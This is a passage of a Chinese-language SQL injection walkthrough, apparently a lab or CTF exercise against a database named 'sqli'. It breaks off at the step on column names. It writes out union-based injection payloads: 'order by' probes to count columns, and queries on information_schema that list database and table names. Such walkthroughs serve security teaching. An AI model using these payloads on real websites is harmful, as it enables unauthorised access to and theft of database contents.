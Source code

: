 1’ order by 1#

![image-20220609085330939](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085330939.png)

1’ order by 2#

![image-20220609085422484](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085422484.png)

1’ order by 3#

![image-20220609085522977](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085522977.png)

可以看到3没有回显，所以只有两个字段

**4.确定显示位置/字段顺序/回显位/SQL语句插入位置**

![image-20220609090109758](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090109758.png)

**5.获取数据库库名**

发现有两个字段可以执行，于是构造语句，查看当前数据库：

（1）获取当前数据库库名和版本

![image-20220609090256283](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090256283.png)

![image-20220609090329995](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090329995.png)

（2）获取所有数据库库名

-1' union select 1,group_concat(schema_name) from information_schema.schemata#

![image-20220609083313568](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083313568.png)

**6.获取数据库表名**

（1）方法一：一次获取一个表名

-1' union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1)#

![image-20220609090732300](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090732300.png)

-1' union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)#

![image-20220609090927855](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090927855.png)

2）方法二：一次性获取当前数据库所有表名

-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#

![image-20220609083357239](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083357239.png)

**7.获取表中的字段名**
